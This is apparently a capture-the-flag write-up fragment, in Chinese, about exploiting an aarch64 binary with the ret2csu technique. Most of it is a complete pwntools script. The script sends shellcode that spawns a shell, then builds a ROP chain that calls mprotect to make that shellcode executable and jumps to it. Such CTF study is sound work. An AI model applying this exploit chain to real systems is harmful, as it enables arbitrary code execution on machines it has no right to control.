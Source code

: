 这里的定义的csu就是溢出后调用，先去覆盖返回地址为csu\_down，调用后sp指向csu\_down，然后按照偏移依次往下构造就可以

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch = 'aarch64'
context.os = 'linux'
context.log_level = 'debug'

p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","./pwn"])
#p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","-g", "1234","./pwn"])
mprotect_plt = 0x400600
mprotect_got = 0x411030
csu_down = 0x4008CC
csu_up = 0x4008AC

offset=0x48

def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl

shellcode_addr = 0x411068
shellcode = asm(shellcraft.aarch64.sh())
pl = shellcode
sa('Name:',pl)

pl=csu(0,1,mprotect_got,7,0x1000,shellcode_addr,shellcode_addr)
s(pl)
itr()
```
